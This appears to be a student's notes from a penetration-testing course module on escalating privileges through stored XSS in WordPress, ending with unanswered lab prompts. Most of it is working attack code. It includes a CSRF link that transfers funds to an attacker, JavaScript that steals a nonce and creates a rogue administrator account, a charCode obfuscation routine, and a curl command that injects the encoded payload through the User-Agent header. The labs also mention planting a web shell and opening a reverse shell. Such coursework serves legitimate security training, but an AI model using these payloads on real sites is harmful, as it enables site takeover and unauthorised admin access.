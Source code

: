 # Privilege Escalation via XSS

CSRF example attack
>``` shell
><a href="http://fakecryptobank.com/send_btc?account=ATTACKER&amount=100000"">Check out these awesome cat memes!</a>
>```

Gathering WordPress Nonce
>``` shell
>var ajaxRequest = new XMLHttpRequest();
>var requestURL = "/wp-admin/user-new.php";
>var nonceRegex = /ser" value="([^"]*?)"/g;
>ajaxRequest.open("GET", requestURL, false);
>ajaxRequest.send();
>var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
>var nonce = nonceMatch[1];
>```

Creating a New WordPress Administrator Account
>``` shell
>var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
>ajaxRequest = new XMLHttpRequest();
>ajaxRequest.open("POST", requestURL, true);
>ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
>ajaxRequest.send(params);
>```

Minifying the XSS attack code
>``` shell
>https://jscompress.com/
>```

JS Encoding JS Function
>``` shell
>function encode_to_javascript(string) {
>            var input = string
>            var output = '';
>            for(pos = 0; pos < input.length; pos++) {
>                output += input.charCodeAt(pos);
>                if(pos != (input.length - 1)) {
>                    output += ",";
>                }
>            }
>            return output;
>        }
>        
>let encoded = encode_to_javascript('insert_minified_javascript')
>console.log(encoded)
>```

Launching the Final XSS Attack through Curl
>``` shell
>kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
>```

Lab 1 - Start Walkthrough VM 1 and replicate the steps learned in this Learning Unit to identify the basic XSS vulnerability present in the Visitors plugin. Based on the source code portion we have explored, which other HTTP header might be vulnerable to a similar XSS flaw?
>``` shell
>
>```
>

Lab 2 - Start Walkthrough VM 2 and replicate the privilege escalation steps we explored in this Learning Unit to create a secondary administrator account. What is the JavaScript method responsible for interpreting a string as code and executing it? Submit the answer as the method name only, or methodName().
>``` shell
>
>```
>

Lab 3 - Capstone Lab: Start Module Exercise VM 1 and add a new administrative account like we did in this Learning Unit. Next, craft a WordPress plugin that embeds a web shell and exploit it to enumerate the target system. Upgrade the web shell to a full reverse shell and obtain the flag located in /tmp/. Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.
>``` shell
>
>```
>
